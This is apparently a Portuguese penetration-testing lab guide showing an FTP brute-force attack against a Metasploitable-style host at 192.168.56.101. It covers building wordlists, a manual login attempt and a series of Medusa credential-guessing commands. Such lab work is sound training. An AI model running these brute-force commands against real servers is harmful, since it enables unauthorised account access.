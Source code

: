 
## 🗂️ Ataque de Força Bruta em FTP

### 1. Criação de Wordlists
```bash
# Criar lista de usuários comuns
echo -e 'msfadmin\nadmin\nroot\nuser\ntest\nftp\nanonymous' > users_ftp.txt

# Criar lista de senhas comuns
echo -e 'msfadmin\n123456\npassword\nadmin\nadmin123\nqwerty\nletmein\nftp' > pass_ftp.txt

# Verificar conteúdo dos arquivos
cat users_ftp.txt
cat pass_ftp.txt

# Contar linhas das wordlists
wc -l users_ftp.txt pass_ftp.txt
```

### 2. Teste Manual de FTP
```bash
# Conexão manual para validar serviço
ftp 192.168.56.101

# No prompt do FTP tentar credenciais manualmente
# Username: msfadmin
# Password: msfadmin

# Comandos FTP após login bem-sucedido
ls
pwd
quit
```

### 3. Ataque com Medusa no FTP
```bash
# Ataque básico com usuário e lista de senhas
medusa -h 192.168.56.101 -u msfadmin -P pass_ftp.txt -M ftp

# Ataque com lista de usuários e lista de senhas
medusa -h 192.168.56.101 -U users_ftp.txt -P pass_ftp.txt -M ftp

# Ataque com múltiplas threads e parada no primeiro sucesso
medusa -h 192.168.56.101 -U users_ftp.txt -P pass_ftp.txt -M ftp -t 6 -f

# Ataque com timeout personalizado e verbose
medusa -h 192.168.56.101 -U users_ftp.txt -P pass_ftp.txt -M ftp -t 4 -f -v 6

# Salvar resultados em arquivo
medusa -h 192.168.56.101 -U users_ftp.txt -P pass_ftp.txt -M ftp -t 6 -f -O ftp_results.txt
```
